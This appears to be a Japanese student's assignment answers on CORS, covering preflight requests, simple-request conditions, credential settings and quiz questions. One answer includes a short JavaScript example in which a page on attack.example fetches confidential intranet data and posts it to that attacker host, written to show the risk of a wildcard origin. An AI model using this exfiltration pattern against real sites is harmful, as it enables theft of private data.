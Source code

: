 # 課題6

## 課題1

### 問題1

Wev APIを利用したアプリケーションではよく、フロントエンドとバックエンドが別々のオリジンで配信される。
しかし、画面生成元のオリジンとリクエスト先のオリジンが異なる場合、同一オリジンポリシーによりレスポンスを処理することができない。
外部サイトからの不適切なAPIの利用を防ぐには都合がよいが、異なるオリジンにある正規サイトから利用する際には不都合が生じる。
そこで、正規のサイトのオリジンを許可することで制限を限定的に解除できる仕組みが「CORS（Cross-Origin Resource Sharing: オリジン間リソース共有）」と言う。  

異なるオリジンのAPIサーバーに対してリクエストを送信するとき、ブラウザはOriginリクエストヘッダーに現在のオリジンを付与する。
APIサーバーはOriginリクエストヘッダーを確認することで、どのオリジンからのリクエストか把握することができ、そのオリジンからのアクセスを許可する場合は、Access-Control-Allow-Originレスポンスヘッダーに許可するOriginを付与して返す。
レスポンスを受信したブラウザは、Access-Control-Allow-Originレスポンスヘッダーを確認し、アクセスが許可されているオリジンであれば、レスポンスを処理する。  

さきほど、APIサーバーはOriginリクエストヘッダーを確認すると述べたが、サーバー側は確認するために異なるオリジンであれ、リクエストを受け取っている。
つまり、サーバー側でリクエストに対する処理が行われることを意味する。
例えば、APIサーバーにDELETEリクエストを送信したとする。
もし、APIサーバーがCORSに対応しておらず、Originリクエストヘッダーを制限する実装になっていなかったら、このDELETEリクエストを受け入れ削除を実行してしまう。
ただし、CORSに対応していないためレスポンスにAccess-Control-Allow-Originレスポンスヘッダーは無い。
すると、ブラウザはレスポンスを確認してCORS違反と判断しエラーにするが、サーバー側での削除処理は実行されてしまう。
そのため、サービスに重大な影響を及ぼす恐れのある操作は、Access-Control-Allow-Originレスポンスヘッダーを確認したブラウザが処理を実行する前に、リクエストそのものを止めなければならない。
これを解決するために、今から送ろうとしているCORSリクエストをAPIサーバーが許可しているのか確認するために、Preflight Requestが考案された。  

Preflight Requestはサーバーに事前確認を行うために、ブラウザによって自動で送信される。
例えば、DELETEのリクエストを送信しようとすると、ブラウザは次のようなPreflight Requestのリクエストを送信する。

```
OPTIONS /resource/foo
Access-Control-Request-Method: DELETE
Access-Control-Request-Headers: origin, x-requested-with
Origin: https://foo.bar.org
```

[参考](https://developer.mozilla.org/ja/docs/Glossary/Preflight_request)  

ブラウザは、OPTIONSメソッドでAccess-Control-Request-Methodリクエストヘッダーにこれから送信するメソッドを付与し、リクエストを送信する。
サーバーが許可している場合は、次のようなPreflight Requestへのレスポンスを返す。

```
HTTP/1.1 204 No Content
Connection: keep-alive
Access-Control-Allow-Origin: https://foo.bar.org
Access-Control-Allow-Methods: POST, GET, OPTIONS, DELETE
Access-Control-Max-Age: 86400
```

[参考](https://developer.mozilla.org/ja/docs/Glossary/Preflight_request)

そして、サーバーはAccess-Control-Allow-Methodsレスポンスヘッダーに許可しているメソッドをブラウザに伝える。
受け取ったブラウザは、「このサーバーはCORSに対応しており、このOriginからのDELETEを許可している」と判断し、実際のリクエストを送信する。
これにより、CORSが許可されていない場合でも、実際のDELETEリクエストを送らず、サービスに意図しない影響が発生するのを防ぐことができる。

一方で、Preflight Requestが不要なリクエストをSimple Requestと呼ぶ。
Simple Requestについては後述する。

### 問題2

Access-Control-Allow-Origin: * は、すべてのオリジンからのリクエストを許可する。
これは、攻撃者に重要な情報が盗まれる可能性がある。  
例えば、 https://company.example は、外部に漏れてはいけない社外秘の情報があり、社内ネットワークに接続した社員のみアクセスできるとする。
また、社員は社内ネットワークだけはなく、社外ネットワーク（インターネット）にもアクセスすることができる。  
攻撃者は、その社外秘の情報を盗むために、Webサイト https://attack.example を用意し、社員がアクセスするように何らかの方法で誘導する。
社員がこの悪意あるサイトにアクセスすると、攻撃者に仕込まれていた次のようなJavaScriptにより、社外秘の情報が盗まれてしまう。

``` JavaScript
// Attackから社外秘の情報を取得する
const res  = await fetch("https://company.example")
const text = await res.text()

// その情報をAttackに転送する
await fetch("https://attack.example", {
  method: "post",
  body:   text
})
```

このような攻撃が成立しないようにするために、Access-Control-Allow-Originには、信頼できるオリジンを設定した方が良い。

### 問題3

- 仕様で定義された[CORS-Safelisted Method](https://fetch.spec.whatwg.org/#cors-safelisted-method)および[CORS-Safelisted Request Header](https://fetch.spec.whatwg.org/#cors-safelisted-request-header)を満たしていること。

- Content-Typeヘッダーでは以下の値のみが使用されていること。
  - application/x-www-form-urlencoded
  - multipart/form-data
  - text/plain
- リクエストに使用されるどのXMLHttpRequestUploadにもイベントリスナーが登録されていないこと。
- リクエストに ReadableStream オブジェクトが使用されていないこと。  
[参考](https://developer.mozilla.org/ja/docs/Web/HTTP/CORS#simple_requests)

### 問題4

CORS エラーが発生し、ブラウザによりレスポンスがブロックされる。

```
Access to fetch at 'http://localhost:8080/' from origin 'https://a3a6a06d6fa0.ngrok.io' has been blocked by CORS policy: The 'Access-Control-Allow-Origin' header has a value 'http://localhost:3000' that is not equal to the supplied origin. Have the server send the header with a valid value, or, if an opaque response serves your needs, set the request's mode to 'no-cors' to fetch the resource with CORS disabled.
```

### 問題5

フロントエンド

- XMLHttpRequest.withCredentialsをtrueに設定する

バックエンド

- access-control-allow-credentialsにtrueを設定する
- Cookieを設定する際にSameSite属性をNoneにする

[参考](https://qiita.com/y_tochukaso/items/78972e0e2917bb11fa10)

## 課題2

### クイズ1

xxxxxx-xxxxxxx-xxx-xxx レスポンスヘッダーを指定することができる。このレスポンスヘッダーに秒数を指定すると、その期間内は同じレスポンスに含まれる Access-Control-Allow-Methods と Access-Control-Allow-Headers の情報をキャッシュ可能にし、 Preflight Request の省略を許可できる。

xxxxxx-xxxxxxx-xxx-xxx レスポンスヘッダーはなんでしょう？

### クイズ2

xxxxxx-xxxxxxx-xxx-xxx（クイズ1の答え） レスポンスヘッダーのデフォルト値は何秒？

[参考](https://fetch.spec.whatwg.org/#http-access-control-max-age)

### クイズ3

HTTP ヘッダは様々な中継サーバによって追加されることがあり、重要な情報を含みます。その中には、JavaScriptから取得されることを想定していないものも多く、それが脆弱性の原因になる可能性があります。そこでJavaScriptからアクセス可能なヘッダが限定されています。明示的な許可がなくアクセス可能なヘッダは次のうちどれでしょう？

- Connection
- Content-Type
- Authorization

[CORS-Safelisted Response Header](https://fetch.spec.whatwg.org/#cors-safelisted-response-header-name)
[Access-Control-Expose-Headers](https://developer.mozilla.org/ja/docs/Web/HTTP/Headers/Access-Control-Expose-Headers)

## 課題4
